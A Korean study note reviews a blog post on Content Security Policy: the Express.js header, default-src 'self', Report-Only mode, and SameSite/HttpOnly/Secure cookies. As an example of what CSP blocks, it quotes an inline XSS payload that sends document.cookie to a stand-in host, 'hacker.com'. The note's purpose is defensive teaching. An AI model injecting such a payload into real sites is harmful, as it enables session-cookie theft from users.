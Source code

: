 - **📚 블로그 읽고 Content Security Policy(CSP) 정리해보기 🍠**
    
    # **📚 블로그 읽고 Content Security Policy(CSP) 정리해보기 🍠**
    
    ---
    
    [개발자 매튜 | Content Security Policy(CSP)로 배우는 웹 보안 설정법](https://www.yolog.co.kr/post/http-content-security-policy)
    
    - 서버에서 HTML 문서를 응답할 때 CSP를 적용하려면 어떤 HTTP 응답 헤더를 설정해야 하나요? 블로그에 나온 Express.js 코드 예시를 기반으로 설명해보세요.
        
        ```c
        res.setHeader('Content-Security-Policy', "default-src 'self'")
        ```
        
        서버에서 웹 문서를 응답할 때 해당 `Content-Security-Policy` 헤더에 적절한 정책을 명시하면 브라우저가 이를 따릅니다.
        
    - `default-src 'self'` 설정은 브라우저에게 어떤 보안 정책을 의미하나요? 또한 `'self'` 값은 어떤 출처를 포함하거나 제외하나요?
        
        여러 자원 형태의 정책을 지정할 수 있는데, `default-src` 는 fallback 으로 동작합니다. 다른 설정이 없다면 `default-src` 의 설정값을 따르며, `‘self’` 는 현재 문서의 출처를 의미합니다.
        
        따라서 위의 설정은 브라우저가 현재 출처의 자원만 사용하라는 기본값을 명시한 것입니다.
        
    - 블로그에 나온 악성 스크립트(`<script>fetch(...)</script>`)를 주입했을 때 CSP가 어떻게 동작하는지 네트워크 탭과 콘솔 메시지 측면에서 설명해보세요.
        
        ```html
        <script> fecth(`http://hacker.com:8081?cookie=${document.cookie}`) </script>
        ```
        
        fetch 함수를 실행하는 악성 스크립트를 위와 같이 주입할 때, 네트워크 탭을 확인하면 [hacker.com](http://hacker.com) 으로 네트워크 요청이 발생하지 않은 것을 볼 수 있습니다. 
        
        브라우저 콘솔에서는 Content Security Policy 경고가 표시되고, “다음 지시자를 위반했기 때문에 인라인 스크립트가 실행되지 않도록 차단했다” 라는 메세지를 볼 수 있습니다.
        
        이는 브라우저가 CSP 정책을 올바르게 이행했다는 의미입니다.
        
        특이점은 인라인 스타일도 차단된다는 점입니다.
        
        즉, CSP 는 인라인 스크립트 뿐만 아니라 인라인 스타일까지 차단하여 보안을 강화합니다.
        
    - 기본 CSP 설정에서 인라인 스타일이 차단된다고 했습니다. 블로그 예시 중 `width:600px`이 적용되지 않는 이유를 설명하세요.
        
        CSP 가 인라인 스크립트 뿐만 아니라 인라인 스타일까지 차단하여 보안을 강화하기 때문입니다.
        
    - 구글 애널리틱스, 카카오맵, 외부 API 등이 CSP 때문에 차단될 수 있다고 했습니다. 이러한 현상을 "건물 보안을 강화한다"는 비유와 연결해 설명해보세요.
        
        건물 보안을 강화하기 위해 모든 출입문을 막아버려, 정작 직원들도 출입하지 못하는 상황과 같다. 따라서 CSP 는 단계적으로 적용하며 서비스에 미치는 영향을 지속적으로 모니터링 할 필요가 있다.
        
    - Report-Only 모드에서는 실제 리소스 실행이 차단되지 않습니다. 그 대신 브라우저와 서버에서 각각 어떤 동작을 수행하나요?
        1. 브라우저가 정책 위반을 진단만 합니다.
        2. 리소스 로드는 차단하지 않고 그대로 실행합니다.
        3. 진단 결과를 서버로 보고합니다.
    - CSP만으로는 CSRF를 막을 수 없다고 했습니다. 블로그에 정리된 다른 보안 조치들(SameSite 쿠키, X-Frame-Options 등) 중 2가지를 설명하세요.
        1. 쿠키 보안 설정
            - `SameSite` 속성 : CSRF 공격 방어
            - `HttpOnly` 속성 : 클라이언트 측 스크립트의 쿠키 접근 차단
            - `Secure` 속성 : HTTPS 연결에서만 쿠키 전송
        